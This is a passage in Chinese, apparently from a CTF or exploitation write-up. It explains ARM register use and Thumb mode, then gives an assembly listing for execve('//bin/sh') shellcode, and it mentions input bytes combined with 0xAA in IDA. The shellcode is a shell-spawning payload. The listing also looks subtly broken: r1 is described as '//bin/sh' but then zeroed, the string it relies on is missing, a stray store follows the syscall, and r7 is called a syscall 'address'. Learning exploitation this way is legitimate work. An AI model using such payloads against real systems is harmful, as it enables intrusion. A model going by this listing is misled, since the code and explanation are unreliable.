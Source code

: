   r0-r3 用于传递函数参数，从左到右分别为参数1-参数4。r5和r7作为临时变量。在另一方面r7用来存储syscall的地址。编写shellcode功能函数需要先查找 syscall的地址。

  在ARM下，我们有Thumb Mode，它允许我们使用16位寻址，而不是32位。

  `execve()`的结构如下：

  ```asm
  r0 => "//bin/sh"
  r1 => "//bin/sh"
  r2 => 0
  r7 => 11
  ```

  分析如下：

  ```asm
   .section .text
    .global _start
    _start:
      .code 32      // 
      add   r3, pc, #1    // for Thumb Mode
      bx  r3      //
      .code 16      //
  
      mov   r0, pc      // place the address of pc in r0
      add   r0, #8      // add 8 to it (which then makes it point to //bin/sh)
      sub  r1, r1, r1      // subtract r1 from itself (which is the same as placing 0 in r1
      sub  r2, r2, r2    // subtract r2 from itself (which is the same as placing 0 in r2)
      mov   r7, #11      // syscall execve in r7
      svc   1      // execute
      str	r7, [r5, #32]	// place it on the stack
  ```

- 在ida中反汇编可以看到读入的每个字符都要跟`0xAA`取反。
